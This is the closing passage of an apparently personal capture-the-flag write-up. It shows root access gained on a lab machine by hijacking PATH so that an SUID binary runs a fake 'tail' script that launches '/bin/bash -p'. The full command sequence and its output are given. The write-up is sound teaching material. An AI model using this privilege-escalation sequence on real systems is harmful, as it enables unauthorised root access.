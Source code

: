 `$ strings live_log | awk ‘length($0) > 15’`

<img class="graf-image" data-height="469" data-image-id="1*8nyN1k4x9nZpM1sGpDmSsg.png" data-width="583" src="https://cdn-images-1.medium.com/max/800/1*8nyN1k4x9nZpM1sGpDmSsg.png"/>

Interesting. There is a path to “access.log” and the full path for the `tail` command isn’t used. Maybe we can change the PATH variable so that we can use our own “tail” command that gives us root.

`$ export PATH=/tmp  
$ cd /tmp  
$ echo “/bin/bash -p” > tail  
$ /bin/chmod +x tail  
$ /home/joe/live_log  
# /usr/bin/whoami  
root  
# /bin/cat /root/root.txt  
[REDACTED]`

And it works! Since “live\_log” was an SUID binary, we were able to run it as root. We were able to redirect the path from `/usr/bin/tail` to `/tmp/tail` which allowed us to run `/bin/bash` as root, giving us a root shell.

That’s all! I hope you enjoyed my explanations. Please send me any constructive feedback [via LinkedIn](https://www.linkedin.com/in/ally-petitt-5a02aa208/). Thank you and take care!